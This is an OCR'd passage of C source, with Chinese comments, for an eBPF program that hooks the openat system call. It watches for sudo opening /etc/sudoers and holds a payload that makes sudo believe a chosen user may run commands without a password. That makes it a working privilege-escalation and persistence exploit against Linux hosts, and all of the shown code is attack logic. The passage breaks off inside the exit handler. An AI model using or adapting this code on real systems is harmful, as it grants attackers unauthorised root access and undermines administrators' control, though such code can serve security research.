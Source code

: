 ```c
// 当 sudo 查看时,这使它认为我们的用户可以无密码 sudo
const volatile int payload_len = 0;
const volatile char payload[max_payload_len];

SEC("tp/syscalls/sys_enter_openat")
int handle_openat_enter(struct trace_event_raw_sys_enter *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int pid = pid_tgid >> 32;
    // 检查我们是否是感兴趣的进程线程
    // 如果 target_ppid 为 0,则我们针对所有 pid
    if (target_ppid != 0) {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid) {
            return 0;
        }
    }

    // 检查 comm 是否为 sudo
    char comm[TASK_COMM_LEN];
    bpf_get_current_comm(comm, sizeof(comm));
    const int sudo_len = 5;
    const char *sudo = "sudo";
    for (int i = 0; i < sudo_len; i++) {
        if (comm[i] != sudo[i]) {
            return 0;
        }
    }

    // 现在检查我们是否正在打开 sudoers
    const char *sudoers = "/etc/sudoers";
    char filename[sudoers_len];
    bpf_probe_read_user(&filename, sudoers_len, (char*)ctx->args[1]);
    for (int i = 0; i < sudoers_len; i++) {
        if (filename[i] != sudoers[i]) {
            return 0;
        }
    }
    bpf_printk("Comm %s\n", comm);
    bpf_printk("Filename %s\n", filename);

    // 如果按 UID 过滤,检查它
    if (uid != 0) {
        int current_uid = bpf_get_current_uid_gid() >> 32;
        if (uid != current_uid) {
            return 0;
        }
    }

    // 为 sys_exit 调用将 pid_tgid 添加到映射
    unsigned int zero = 0;
    bpf_map_update_elem(&map_fds, &pid_tgid, &zero, BPF_ANY);

    return 0;
}

SEC("tp/syscalls/sys_exit_openat")
int handle_openat_exit(struct trace_event_raw_sys_exit *ctx)
{
    // 检查此 open 调用是否正在打开我们的目标文件
    size_t pid_tgid = bpf_get_current_pid_tgid();
    unsigned int* check = bpf_map_lookup_elem(&map_fds, &pid_tgid);
```